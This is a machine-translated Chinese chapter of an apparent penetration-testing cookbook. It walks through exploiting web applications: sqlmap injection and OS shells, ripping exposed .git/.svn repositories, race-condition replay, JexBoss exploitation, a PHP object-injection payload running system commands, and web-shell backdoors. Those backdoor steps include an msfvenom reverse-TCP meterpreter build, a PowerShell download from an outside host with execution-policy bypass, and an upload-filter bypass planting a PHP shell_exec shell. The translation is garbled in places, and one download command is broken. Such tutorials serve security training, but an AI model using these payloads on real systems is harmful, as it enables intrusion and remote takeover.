# Web 应用程序开发–超越 OWASP 前 10 名

在本章中，我们将介绍以下配方：

*   使用 XSS 验证器开发 XSS
*   使用`sqlmap`进行注射攻击
*   拥有所有`.svn`和`.git`存储库
*   获胜条件
*   用 JexBoss 开发 JBoss
*   利用 PHP 对象注入
*   使用 web 外壳和流量计的后门

# 介绍

在 OWASP 前 10 名中，我们通常看到查找和利用漏洞的最常见方法。在本章中，我们将介绍在 web 应用程序中查找 bug 时可能遇到的一些不常见情况。

# 使用 XSS 验证器开发 XSS

虽然 XSS 已经被各种工具（如 Burp、Acunetix 等）检测到，但 XSS 验证器很方便。Burp 入侵者和扩展器设计用于自动验证 XSS 漏洞。

它基于蜘蛛实验室在[上的博客文章 http://blog.spiderlabs.com/2013/02/server-site-xss-attack-detection-with-modsecurity-and-phantomjs.html](http://blog.spiderlabs.com/2013/02/server-site-xss-attack-detection-with-modsecurity-and-phantomjs.html) 。

# 准备

要在下面的方法中使用该工具，我们需要在机器上安装 SlimerJS 和 PhantomJS。

# 怎么做。。。

以下步骤演示 XSS 验证器：

1.  我们打开 Burp 并切换到 Extender 选项卡：



2.  然后安装 XSS 验证程序扩展程序：



3.  安装完成后，我们将在 Burp 窗口中看到一个名为 xssValidator 的新选项卡：



4.  接下来，我们安装 PhantomJS 和 SlimerJS；这可以通过几个简单的命令在 Kali 上完成。
5.  我们使用`wget`从互联网下载 PhantomJS 文件：

```
 sudo wget https://bitbucket.org/ariya/phantomjs/downloads/
        phantomjs-1.9.8-linux-x86_64.tar.bz2
```

6.  我们使用以下命令提取它：

```
 tar jxvf phantomjs-1.9.8-linux-x86_64.tar.bz2
```

以下屏幕截图显示了上述命令下载 PhantomJS 文件的文件夹：


7.  现在我们可以使用`cd`浏览文件夹，最简单的方法是将 PhantomJS 可执行文件复制到`/usr/bin`：

```
 cp phantomjs /usr/local/bin
```

以下屏幕截图显示了前面命令的输出：


8.  为了验证我们可以在终端中键入`phantomjs -v`命令，它将向我们显示版本。
9.  同样，要安装 SlimerJS，我们从官方网站下载：
    [http://slimerjs.org/download.html](http://slimerjs.org/download.html) 。
10.  我们首先使用以下命令安装依赖项：

```
 sudo apt-get install libc6 libstdc++6 libgcc1 xvfb
```

11.  现在，我们使用以下方法提取文件：

```
 tar jxvf slimerjs-0.8.4-linux-x86_64.tar.bz2
```

12.  然后我们浏览目录，只需将 SlimerJS 可执行文件复制到`/usr/local/bin`：



13.  然后，我们执行以下命令：

```
 cp slimerjs /usr/local/bin/
```

以下屏幕截图显示了前面命令的输出：


14.  现在我们需要导航到 XSS 验证器文件夹。
15.  然后，我们需要使用以下命令启动 PhantomJS 和 SlimerJS 服务器：

```
 phantomjs xss.js & slimerjs slimer.js &
```

16.  一旦服务器运行，我们就回到打嗝窗口。在右侧的 XSS 验证器选项卡中，我们将看到扩展器将根据请求测试的有效负载列表。我们也可以手动输入自己的有效载荷：


17.  接下来，我们捕获验证 XSS 所需的请求。

18.  我们选择发送到入侵者选项：


19.  然后，我们切换到入侵者窗口，在 Positions 选项卡下，设置要测试 XSS 有效负载的位置。`§`包围的值是攻击期间插入有效载荷的位置：



20.  在“有效负载”选项卡中，我们选择有效负载类型作为生成的扩展：


21.  在有效载荷选项中，我们单击选择生成器。。。并选择 XSS 验证程序有效负载：


22.  接下来，我们切换到 XSS 验证器选项卡并复制 Grep 短语；也可以自定义此短语：


23.  接下来，我们切换到入侵者中的选项选项卡，并在 Grep-Match 中添加复制的短语：



24.  单击开始攻击，我们将看到一个弹出窗口：



25.  在这里，我们将看到在 Grep 短语列中带有复选标记的请求已成功验证：



# 使用 sqlmap 的注入攻击

`sqlmap`工具是 Python 内置的开源工具，它允许检测和利用 SQL 注入攻击。它完全支持 MySQL、Oracle、PostgreSQL、Microsoft SQL Server、Microsoft Access、IBM Db2、SQLite、Firebird、Sybase、SAP MaxDB、HSQLDB 和 Informix 数据库。在本教程中，我们将介绍如何使用 sqlmap 测试和利用 SQL 注入。

# 怎么做。。。

以下是使用`sqlmap`的步骤：

1.  我们首先看一下`sqlmap`的帮助，以便更好地了解其特性。这可以使用以下命令完成：

```
 sqlmap -h
```

以下屏幕截图显示了前面命令的输出：


2.  要扫描 URL，请使用以下命令：

```
 sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1"
```

3.  一旦检测到 SQL，我们可以选择 yes（`Y`）跳过其他类型的有效负载：


4.  一旦检测到 SQL，我们可以使用`--dbs`标志列出数据库名称：


5.  我们现在有了数据库；同样，我们可以使用`--tables`和`--columns`等标志来获取表名和列名：


6.  要检查用户是否是数据库管理员，我们可以使用`--is-dba`标志：



7.  `sqlmap`命令有很多标志。我们可以使用下表查看不同类型的标志及其作用：

| **标志** | **操作** |
| `--tables` | 转储所有表名 |
| `-T` | 指定要对其执行操作的表名 |
| `--os-cmd` | 执行操作系统命令 |
| `--os-shell` | 向系统提示命令 shell |
| `-r` | 指定要在其上运行 SQL 测试的文件名 |
| `--dump-all` | 抛弃一切 |
| `--tamper` | 使用篡改脚本 |
| `--eta` | 显示转储数据的估计剩余时间 |
| `--dbs=MYSql,MSSQL,Oracle` | 我们可以手动选择一个数据库并仅对特定的数据库类型执行注入 |
| `--proxy` | 指定代理 |

# 另见

*   *使用 web 外壳的后门*配方
*   *后门使用流量计*配方

# 拥有所有.svn 和.git 存储库

此工具用于 rip 版本控制系统，如 SVN、Git 和 Mercurial/hg、Bazaar。该工具是用 Python 构建的，使用起来非常简单。在本食谱中，您将学习如何使用该工具删除存储库。

存在此漏洞的原因是，在大多数情况下，当使用版本控制系统时，开发人员将其存储库托管在生产环境中。离开这些文件夹可以让黑客下载整个源代码。

# 怎么做。。。

以下步骤演示了存储库的使用：

1.  我们可以通过以下方式从 GitHub 下载`dvcs-ripper.git`：

```
 git clone https://github.com/kost/dvcs-ripper.git
```

2.  我们浏览`dvcs-ripper`目录：



3.  要删除 Git 存储库，命令非常简单：

```
 rip-git.pl -v -u http://www.example.com/.git/
```

4.  我们让它运行，然后我们会看到一个创建的`.git`文件夹，在其中，我们会看到源代码：


5.  类似地，我们可以使用以下命令来 rip SVN：

```
 rip-svn.pl -v -u http://www.example.com/.svn/
```

# 获胜条件

在多线程 web 应用程序中对相同数据执行操作时，会出现争用条件。当执行一个操作的时间将影响另一个操作时，它基本上会产生意外的结果。

具有竞争条件漏洞的应用程序的一些示例可以是允许将信用从一个用户转移到另一个用户的应用程序，或者允许为折扣添加凭证代码的应用程序，该折扣也可能具有竞争条件，这可能允许攻击者多次使用同一代码。

# 怎么做。。。

我们可以使用 Burp 的入侵者执行竞争条件攻击，如下所示：

1.  我们选择请求并单击发送到入侵者：



2.  我们切换到选项选项卡并设置我们想要的线程数，`20`到`25`通常足够好：


3.  然后，在 Payloads 选项卡中，我们在 Payloads type 中选择 Null Payloads，因为我们希望重播相同的请求：


4.  然后，在有效负载选项中，我们选择希望播放请求的次数。
5.  因为我们不知道应用程序将如何执行，所以我们无法完全猜测需要重播请求的次数。
6.  现在，我们点击开始攻击。如果攻击成功，我们将看到预期的结果。

# 另见

有关详细信息，请参阅以下文章：

*   [http://antoanthongtin.vn/Portals/0/Uploadimg/kiennt2/KyYeu/DuLieuTrongNuoc/Dulieu/KyYeu/07.race-condition-attacks-in-the-web.pdf](http://antoanthongtin.vn/Portals/0/Uploadimg/kiennt2/KyYeu/DuLieuTrongNuoc/Dulieu/KyYeu/07.race-condition-attacks-in-the-web.pdf)
*   [https://sakurity.com/blog/2015/05/21/starbucks.html](https://sakurity.com/blog/2015/05/21/starbucks.html)
*   [http://www.theregister.co.uk/2016/10/21/linux_privilege_escalation_hole/](http://www.theregister.co.uk/2016/10/21/linux_privilege_escalation_hole/)

# 用 JexBoss 开发 JBoss

JexBoss 是一种用于测试和利用 JBoss 应用服务器和其他 Java 应用服务器（例如 WebLogic、GlassFish、Tomcat、Axis2 等）中漏洞的工具。

可在[下载 https://github.com/joaomatosf/jexboss](https://github.com/joaomatosf/jexboss) 。

# 怎么做。。。

我们首先导航到克隆 JexBoss 的目录，然后按照给定的步骤进行操作：

1.  我们使用以下命令安装所有需求：

```
 pip install -r requires.txt
```

以下屏幕截图是上述命令的示例：


2.  要查看帮助，请键入以下内容：

```
 python jexboss.py -h
```

以下屏幕截图显示了前面命令的输出：



3.  要利用主机进行攻击，只需键入以下命令：

```
 python jexboss.py -host http://target_host:8080
```

以下屏幕截图是上述命令的示例：


这向我们展示了漏洞。


4.  我们键入`yes`继续开发：



5.  这为我们提供了服务器上的 shell：


# 利用 PHP 对象注入

当通过 PHP`unserialize()`函数传递不安全的用户输入时，会发生 PHP 对象注入。当我们将一个类的对象的序列化字符串传递给应用程序时，应用程序会接受它，然后 PHP 会重新构造该对象，如果类中包含魔术方法，则通常会调用这些方法。其中一些方法是`__construct()`、`__destruct()`、`__sleep()`和`__wakeup()`。

这将导致 SQL 注入、文件包含，甚至远程代码执行。但是，为了成功利用此漏洞，我们需要知道对象的类名。

# 怎么做。。。

以下步骤演示 PHP 对象注入：

1.  这里，我们有一个应用程序正在传递`get`参数中的序列化数据：


2.  既然我们有了源代码，我们会看到 app 正在使用`__wakeup()`函数，类名是`PHPObjectInjection`：


3.  现在，我们可以编写一个具有相同类名的代码来生成一个序列化对象，该对象包含我们希望在服务器上执行的命令：

```
        <?php
            class PHPObjectInjection{
                 public $inject = "system('whoami');";
            }
            $obj = new PHPObjectInjection;
            var_dump(serialize($obj));
        ?>
```

4.  我们通过将代码保存为 PHP 文件来运行代码，并应具有序列化输出：



5.  我们将这个输出传递到`r`参数中，我们看到这里，它向用户显示：


6.  让我们再传递一个命令，`uname -a`。我们使用我们创建的 PHP 代码生成它：


7.  我们将输出粘贴到 URL 中：


8.  现在我们看到命令正在执行，输出如下：



# 另见

*   [https://mukarramkhalid.com/php-object-injection-serialization/#poi-示例 2](https://mukarramkhalid.com/php-object-injection-serialization/#poi-example-2)
*   [https://crowdshield.com/blog.php?name=exploiting-php 序列化对象注入漏洞](https://crowdshield.com/blog.php?name=exploiting-php-serialization-object-injection-vulnerabilities)
*   [https://www.evonide.com/how-we-broke-php-hacked-pornhub-and-earned-20000-dollar/](https://www.evonide.com/how-we-broke-php-hacked-pornhub-and-earned-20000-dollar/)

# 使用 web 外壳的后门

Shell 上传很有趣；上传 web shell 使我们能够浏览服务器。在本教程中，您将学习一些在服务器上上传 shell 的方法。

# 怎么做。。。

以下步骤演示了 web Shell 的使用：

1.  我们首先通过运行带有`--is-dba`标志的 sqlmap 来检查用户是否是 DBA：



2.  然后，我们使用`os-shell`，这会提示我们使用 shell。然后，我们运行命令以检查我们是否具有特权：

```
 whoami
```

以下屏幕截图是上述命令的示例：


3.  幸运的是，我们有管理员权限。但是我们没有对外部用户可用的 RDP。让我们尝试使用 PowerShell 访问 MeterMeter 的另一种方法。

4.  我们首先创建一个`System.Net.WebClient`对象，并将其保存为系统上的 PowerShell 脚本：

```
 echo $WebClient = New-Object System.Net.WebClient > abc.ps1
```

5.  现在我们使用以下命令通过`msfvenom`创建我们的`meterpreter.exe`：

```
 msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address>
    LPORT=<Your Port to Connect On> -f exe > shell.exe
```

6.  现在，我们需要下载 MeterMeter，所以我们在`abc.ps1`脚本中附加以下命令：

```
 echo $WebClientDownloadFile(http://odmain.com/meterpreter.exe,
        "D:\video\b.exe") >> abc.ps1
```

以下屏幕截图是上述命令的示例：


7.  默认情况下，PowerShell 配置为防止在 Windows 系统上执行`.ps1`脚本。但是有一种神奇的方式仍然可以执行脚本。我们使用以下命令：

```
 powershell -executionpolicy bypass -file abc.ps1
```

以下屏幕截图是上述命令的示例：


8.  接下来，我们转到下载文件的目录`D:/video/meterpreter.exe`，并使用以下命令执行它：

```
 msfconsole
```

前面的命令将打开 msf，如以下屏幕截图所示：



# 使用流量计的后门

有时，我们也会遇到一个文件上传，最初是为了上传文件，如 Excel、照片等，但有几种方法可以绕过它。在本食谱中，您将看到如何做到这一点。

# 怎么做。。。

以下步骤演示了流量计的使用：

1.  这里，我们有一个上传照片的 web 应用程序：



2.  当我们上传照片时，我们会在应用程序中看到：


3.  让我们看看上传一个`.txt`会发生什么。我们创建了一个以测试为数据的：



4.  让我们试着上传它：


5.  我们的图像已被删除！这可能意味着我们的应用程序正在对文件扩展名执行客户端或服务器端检查：


6.  让我们尝试绕过客户端检查。我们在 Burp 中拦截请求，并尝试在提交的数据中更改扩展名：


7.  现在我们将扩展名从`.txt`更改为`.txt;.png`，然后单击“前进”：



这仍然在被删除，这告诉我们应用程序可能正在进行服务器端检查。

绕过它的一种方法是添加一个图像头以及我们想要执行的代码。

8.  我们添加标题`GIF87a`并尝试上传文件：


然后我们上传这个：


9.  我们看到文件已经上传了。
10.  现在，我们尝试添加我们的 PHP 代码：

```
        <?php
            $output = shell_exec('ls -lart');
            echo "<pre>$output</pre>";
        ?>
```



但是我们的 PHP 还没有被执行。

11.  但是，也有其他文件格式，如`.pht`、`.phtml`、`.phtm`、`.htm`等。让我们试试`.pht`。


我们的文件已经上传了。


12.  我们浏览该文件并查看它是否已被执行！


13.  让我们尝试执行一个基本命令：

```
 ?c=whoami
```


我们可以看到，我们的命令已经成功执行，我们已经将 shell 上传到服务器上。